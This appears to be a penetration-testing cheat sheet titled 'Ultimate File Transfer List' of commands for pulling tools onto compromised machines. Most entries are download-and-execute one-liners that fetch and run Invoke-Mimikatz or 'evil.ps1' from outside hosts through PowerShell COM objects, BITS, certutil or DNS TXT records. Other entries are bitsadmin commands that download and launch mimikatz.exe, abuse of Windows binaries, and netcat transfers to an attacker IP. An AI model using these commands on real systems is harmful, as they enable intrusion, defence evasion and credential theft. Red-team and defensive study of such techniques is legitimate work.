 # Ultimate File Transfer List
Ultimate File Transfer List

## powershell.exe

### wget.ps1

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.10.10.10/mimikatz.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


### powershell download proxy auth

$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')


### powershell 4.0 & 5.0 Invoke-WebRequest (works in constrained language mode)

Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"


### PowerShell 3.0+ download and execute (bypass IE firstrun check)

IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)


### powershell (any version)

powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")


### hidden IE com object

$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r


### Msxml2.XMLHTTP COM object

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


### WinHttp COM object

[System.Net.WebRequest]::DefaultWebProxy
[System.Net.CredentialCache]::DefaultNetworkCredentials
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


### bitstransfer

Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r

// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))


### from @subtee
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex

References:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe

cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"

References: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe

pscp.exe C:\Users\Public\info.txt phineas@target:/tmp/info.txt
pscp.exe phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt


## certutil.exe

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1

References:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe / base64

certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0
echo {base64_data} | base64 -d -w 0


## print.exe

C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe

References:

https://twitter.com/Oddvarmoe/status/984749424395112448


## makecab.exe

C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab


## esentutl.exe

C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o


## extrac32.exe

C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt


## netcat file
nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe


## Web Browser / Server

python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork


## wget

wget http://10.10.10.10:80/info.txt -O /tmp/info.txt


## curl
curl -o /tmp/info.txt http://10.10.10.10:80/info.txt


## rdesktop

rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'




